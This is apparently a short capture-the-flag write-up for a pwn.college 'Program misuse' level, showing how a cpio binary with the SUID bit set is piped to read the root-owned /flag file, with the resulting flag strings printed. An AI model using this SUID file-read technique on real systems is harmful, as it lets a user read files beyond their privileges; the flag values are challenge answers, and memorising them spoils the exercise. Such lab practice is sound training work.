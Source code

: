 # pwn.college - Fundamentals - Program misuse - Level 22
```
$ /challenge/babysuid_level22
```
The SUID bit on `/usr/bin/cpio` is set
```
$ echo "/flag" | cpio -ov | cpio -i --to-stdout
```
This produces output where we can copy the flag out of.
```
/flag
1 block
pwn.college{Io6J9b7wOs5MsYGKttjcsfS2qnT.0FN2EDLyYjNyEzW}
1 block
```
`pwn.college{0qU78AyYpbFdrYlIDjdNlZ3dvsi.01M2EDLyYjNyEzW}`